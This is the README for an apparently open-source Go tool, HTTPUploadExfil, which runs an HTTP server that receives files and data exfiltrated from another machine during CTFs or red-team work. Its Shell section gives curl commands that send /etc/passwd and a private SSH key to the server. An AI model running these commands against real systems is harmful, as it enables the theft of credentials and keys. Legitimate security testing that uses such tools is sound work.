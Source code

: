 # HTTPUploadExfil

`HTTPUploadExfil` is a (very) simple HTTP server written in Go that's useful for getting files (and other information) off a machine using HTTP. While there are many use-cases, it's meant to be used in **low-stakes offensive scenarios** (e.g., CTFs).

Think of this as `python3 -m http.server` but for getting data off a machine instead of on the machine.

Obviously, this is a **very loud** and **somewhat restricted** way of exfiltrating data. Nevertheless, it's quite handy and somewhat easier than, for example, using SMB or FTP. If you are looking for something more elegant, have a look at, for example, [`dnsteal`](https://github.com/m57/dnsteal) or [`PyExfil`](https://github.com/ytisf/PyExfil).

**TL;DR**

1) Build the tool using `go build`.
2) Run `./httpuploadexfil :1337 /home/kali/loot` on your machine.
3) Access `http://YOUR_IP:1337/` on the machine you need to exfiltrate data from.
4) Find your uploaded files in `/home/kali/loot`.

## Building and Developing

It's trivial to build this tool.

Simply run `go build` within the folder, and you should get an `httpuploadexfil` executable for your platform.

If you make changes to the tool, remember to format using `go fmt main.go`.

## Usage

The most common use case would be to run the server on *Machine A*. Now, on *Machine B* you access the upload form using a browser and select a file to exfiltrate. Of course, as you can see below, this can also be done using, for example, `curl`.

Aside from uploading files, you can also use `HTTPUploadExfil` to exfiltrate data using simple GET requests. If a request is sent to the `\g` endpoint, the whole request will be stored to disk.

Hence, you can exfiltrate data using the header of the request. It's easiest to use GET parameters (e.g., `?data=...`), but there are other options.

![HTTPUploadExfil](https://github.com/IngoKl/HTTPUploadExfil/blob/main/media/example-1.png?raw=true)

By default, `HTTPUploadExfil` will be served on port 8080. All files will be written to the current directory.

`./httpuploadexfil`

You can also provide some arguments:

`./httpuploadexfil :1337 /home/kali/loot`

The first argument is a bind address, the second one the folder to store files in.

The tool will also expose the files in the loot directory under the `/l` endpoint. This can be used as an easy way to bring files onto the target.

### Endpoints

The webserver exposes four endpoints for you to use:

1) `/` (GET) is the upload form.
2) `/p` (POST) takes the data from the upload form. It requires a `multipart/form-data` request with the `file` field filled.
3) `/g` (GET) will take any GET request and store the full request on the server.
4) `/l` (GET) will provide access to files in the specified folder (Directory Listing). This is to provide basic `python3 -m http.server` functionality.

### HTTPs Mode

`HTTPUploadExfil` can also be used in HTTPs mode. To do so, simply place a `HTTPUploadExfil.csr` and `HTTPUploadExfil.key` file next to the binary. These can be, for example, generated as follows:

```bash
openssl req -new -newkey rsa:2048 -nodes -keyout HTTPUploadExfil.key -out HTTPUploadExfil.csr
openssl x509 -req -days 365 -in HTTPUploadExfil.csr -signkey HTTPUploadExfil.key -out HTTPUploadExfil.csr
```

If the servers sees a `HTTPUploadExfil.csr` file, it will try to start in HTTPs mode. To go back to HTTP, simply remove or rename the certificate files.

### Shell

Using `Bash`, we can exfil data using GET via, for example:

``echo "data=`cat /etc/passwd`" | curl -d @- http://127.0.0.1:8080/g``

Of course, we can also use `curl` to exfil files:

`curl -F file=@/home/kali/.ssh/id_rsa http://127.0.0.1:8080/p`

## ToDo

- [X] Implement an HTTPs version (Transport Encryption)
- [X] Add download option (i.e., provide `python3 -m http.server` functionality)
